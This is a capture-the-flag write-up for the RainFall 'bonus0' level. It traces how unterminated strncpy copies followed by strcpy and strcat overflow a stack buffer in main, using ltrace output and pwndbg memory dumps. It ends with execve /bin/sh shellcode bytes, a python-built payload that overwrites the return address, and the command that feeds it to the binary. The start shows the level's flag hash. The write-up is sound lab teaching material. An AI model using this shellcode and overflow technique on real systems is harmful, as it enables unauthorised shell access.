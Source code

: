 bonus0:f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

# Reconnaissance 

```
bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff7e4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - 
)                                                                                                = 4
read(0, AAAA
"AAAA\n", 4096)                                                                                    = 5
strchr("AAAA\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6c8, "AAAA", 20)                                                                            = 0xbffff6c8
puts(" - " - 
)                                                                                                = 4
read(0, BBBB
"BBBB\n", 4096)                                                                                    = 5
strchr("BBBB\n", '\n')                                                                                     = "\n"
strncpy(0xbffff6dc, "BBBB", 20)                                                                            = 0xbffff6dc
strcpy(0xbffff716, "AAAA")                                                                                 = 0xbffff716
strcat("AAAA ", "BBBB")                                                                                    = "AAAA BBBB"
puts("AAAA BBBB"AAAA BBBB
)                                                                                          = 10
+++ exited (status 0) +++
```

ask for 2 input => read 4096 bytes
copy 20 first bytes to `0xbffff6c8` for the first input and to `0xbffff6dc` for the second
address main buffer = `0xbffff736`

found 2 functions => `p` and `pp`

# Test

first input => 20 * "A"
second input => 19 * "B" + "\n"

```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x00000001      0x08048034      0x00000000
0xff963ea8:     0xf7f66000      0x00000000      0x00000000      0xf7f22000
```
after both inputs
```
pwndbg> x/12w 0xff963e88
0xff963e88:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963e98:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ea8:     0x42424242      0x00424242      0x00000000      0xf7f22000
```

copy in main buffer
```
pwndbg> x/12x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x00424242      0x20000000      0x2000f7f2
```

space added to main buffer
```
pwndbg> x/12w 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x20000000      0x2000f7f2
```

cat b at the end of main buffer, main buffer 59 bytes long, supposed to be 42 bytes long
```
pwndbg> x/16x 0xff963ed6
0xff963ed6:     0x41414141      0x41414141      0x41414141      0x41414141
0xff963ee6:     0x41414141      0x42424242      0x42424242      0x42424242
0xff963ef6:     0x42424242      0x20424242      0x42424242      0x42424242
0xff963f06:     0x42424242      0x42424242      0x00424242      0x3fb40000
```

We find out that we can overwrite the return pointer of main: 5 last bytes are at the return pointer

payload => 
    first input: 20 first bytes of shellcode + padding to fill up the buffer + newline
`\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89`
    second input: 19 bytes (remaining bytes for shellcode + padding (8 bytes) + address main buffer + 1)
`\xc2\x6a\x0b\x58\xcd\x80` + 8 * "C" + 4 bytes address + random char

main buffer address => `0xbffff736` got with ltrace

shellcode => `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`

payload template => `python2 -c 'print "A" * 4091 + "XXXX\x0a" + 14 * "C" + "BBBBD"' > payload`

payload => `python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89" + "A" * 4075 + "\x0a" + "\xc2\x6a\x0b\x58\xcd\x80" + 8 * "C" + "\x36\xf7\xff\xbf" + "D"' > /tmp/payload`

`cat /tmp/payload - | ./bonus0`
